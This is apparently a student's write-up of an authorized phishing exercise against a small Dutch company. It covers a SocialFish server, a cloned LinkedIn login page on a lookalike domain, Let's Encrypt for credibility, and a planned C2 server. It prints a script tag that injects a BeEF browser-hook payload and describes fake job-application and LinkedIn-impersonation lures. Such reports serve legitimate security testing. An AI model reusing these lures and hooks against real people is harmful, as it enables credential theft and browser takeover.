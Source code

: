 ```yaml
---
permalink: /group/phishing
layout: single
title: Hoefnagels - phishing campaign
---
```


The goal of our group project is to research what is required from IT-Workz to start providing penetration test as a service. To do that, our
group was tasked with conducting multiple pen tests to select the core requirements.

We have started with establishing contact with Hoefnagels - a company specializing in manufacturing fire safety equipment. The company is quite
old and has been run by the same family since its inception. Since Hoefnagels is a rather small organization, they do not have a designated IT
department. They rely on a 3rd party that set up and does maintenance on their infrastructure.

The scope of the pen test focused on simulating an external threat and one of the goals was to conduct a phishing campaign. I have decided to
pick up this task and work on it together with other group member.

## Prerequisites

Our first goals while getting started were:

- Finding the appropriate technologies for hosting the malicious website.
- Coming up with a plausible scenario, so that the employees might click on the email.

I have decided to focus more on the first one and started researching different phishing tools. We wanted the tooling to give us the possibility
to extract credentials of the victims and to be able to plant a malicious file on their computers.

## Website

Based on our needs, I have decided to use a phishing framework that would aid me with hosting and managing the website. My choice fell on the
tool called [SocialFish](https://github.com/UndeadSec/SocialFish). SocialFish provided an easy way to host custom html websites and attaching some malicious JavaScript, as well as easy to use interface.

Moreover, we decided to use Beef-XSS - a framework which gives the attacker the possibility to control victim's browser, after delivering a
JavaScript payload.

The website had to be accessible from the internet, so I have decided to host it on a DigitalOcean's virtual machine which could handle
SocialFish and run some additional software.

## Initial deployment and HTTPS

![First droplet](../../assets/img/phishing/droplet_1.png)

We deployed our virtual machine, and I have started setting up the required software:

- SocialFish
- Beef-XSS
- Uncomplicated Firewall (UFW)
- LetsEncrypt bot

### SocialFish and Beef-XSS

SocialFish is an open source, Python software which allows users to maintain and run phishing campaigns. The application is open source, which
allowed me to customize the behavior of the server to tailor it to our needs.

![SocialFish](../../assets/img/phishing/socialfish.png)

I downloaded a copy of LinkedIn's log in page, and uploaded it to the virtual machine to use it as a custom phishing page. This allowed me to add a
a script tag which injects a Beef-XSS payload into the victim's browser.

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```

![Beef](../../assets/img/phishing/beef.png)

Moreover, I used the Let's Encrypt certificate services to increase the legitimacy of my website. That way, the website seemed as if it was an actual
LinkedIn.

### Blocked domain and new website

![Blocked domain](../../assets/img/phishing/domain_blocked.png)

However, few hours after deploying the website, I have discovered that the domain was blocked. Apparently Google's (probably) web crawlers flagged the
website as malicious, since the domain name was `linkedlin.ml` and it was a copy of the linkedin front page. Moreover, I was running Beef-XSS and
SocialFish, which most likely triggered the domain flagging.

This time, we have decided to apply a firewall on our droplet and whitelist Hoefnagels IP address that we obtained from the physical testing, as well as
 our home and school addresses. I have decided to use `UFW` which was preinstalled on that instance of the Ubuntu server.  
_I have blurred out the IP addresses since these are sensitive information_

![Firewall rules](../../assets/img/phishing/firewall.png)

The firewall now only allows the selected IP addresses to the port 443 running the website and port 7443 running a C2 server `covenant` which we planned
to use after compromising victims.

We had two phishing scenarios we planned to execute:

1. Sending a fake job application on their website with a link to our SocialFish server, disguised as a fake LinkedIn page.
2. Sending an email from our `linkedllin.ml` domain that imitates an email from LinkedIn.

For the job application scenario, we decided to apply to the job posting on their website at
_[this url](https://werkenbijhoefnagels.nl/sollicitatieformulier/114/sollicitatieformulier-1ste-Monteur-Meewerkend-Voorman-Montage-buitendienst/)_.
While Georgi created a fake LinkedIn account, I deployed the infrastructure and connected both SocialFish and Beef-XSS together. We sent the job
application and awaited their response.

![Landing page](../../assets/img/phishing/linkedllin.ml.png)

![Profile](../../assets/img/phishing/profile.png)

While waiting for their answer, we decided to send messages to email addresses that we found during the OSINT phase. We tried deploying an email server
on our DigitalOcean virtual machine using [Mailcow](https://mailcow.email). However, due to security reasons, new accounts are not allowed to use port 25 to send emails.
Therefore, we have decided to use the following address: `noreply.linkedllin.ml@gmail.com`

![Phishing email](../../assets/img/phishing/phishing_email.png)

This fake email impersonating LinkedIn emails was sent to the email addresses of the employees. However, majority of the emails were either blocked or non-existent.

![Email blocked](../../assets/img/phishing/msg_blocked.png)

### Conclusions

The phishing campaign has had its ups and downs. Not only did we not manage to send mass emails to all employes, nobody was gullible enough to input their credentials
into our fake landing page. This can be broken down into two conclusions:

**Conducting a succesful phishing campaign is a hard task.**

It requires good knowledge of managing IT infrastructure, such as firewalls, ssl certificates, DNS and email servers. Moreover fake domains can be easily targeted by the web
crawlers and flagged as malicious. And on top of that, the goal of these extensive preparations is to trick somebody into inputting their credentials on a fake webstie.

**Hoefnagels employees are phishing conscious**

Throughout the pen test, we kept in contact with the company. Even before we started our campaign, we heard that the employees reported that they started receiving
suspicious emails. The security assesment was kept secret, so the employees didn't fall for an actual attack. Our methods were a bit less successful and a bit more subtle,
but they still didn't fall for that.

All in all, I believe that if our group had more time to prepare for the phishing campaign (month or two), we would have been able to create a trusted email server,
conduct an  extensive OSINT and execute a mass mailing attack.
